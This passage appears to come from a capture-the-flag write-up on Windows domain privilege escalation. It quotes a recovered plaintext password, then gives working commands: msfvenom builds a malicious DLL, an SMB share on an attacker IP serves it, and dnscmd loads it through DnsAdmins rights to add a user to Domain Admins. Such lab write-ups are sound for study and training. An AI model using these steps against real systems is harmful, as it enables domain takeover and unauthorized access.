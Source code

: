 ```
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
```

A number of lines contain a password Serv3r4Admin4cc123! associated with the ryan user account.
We already know from ldapdomaindump that ryan is a member of Remote Management Users, so lets log in as ryan.
We also know that ryan is a member of DnsAdmins, meaning that ryan has access to the dnscmd command. We can use this to get root access by injecting a malicious dns.dll

Our dns.dll file will be run with admin privileges so we could use a reverse shell, however i found that this was not stable, perhaps due to windows defender. Another option is to add a user to the Domain Admins group. 
So lets use msfvenom to craft a malicious dns.dll that will add melanie to Domain Admins.

```bash
msfvenom -p windows/x64/exec CMD='net group "domain admins" melanie /add /domain' -f dll > dns.dll
```

Windows Defender removes the file if you transfer it to the local machine so we will have to host it on a SMB share.

```bash
smbserver.py -debug smb ./
```

Now as ryan we can run the following command to change the serverlevelplugindll to our malicious file.

```bash
dnscmd RESOLUTE /config /serverlevelplugindll \\10.10.14.35\\smb\\dns.dll 
```

Then we must restart dns for our code to be run.

```bash
sc.exe stop dns

sc.exe start dns
```

If all has gone well melanie should now be a member of the Domain Admins group. If we log back in as melanie we can read the root.txt flag

```
melanie: cat C:/Users/Administrator/Desktop/root.txt
```


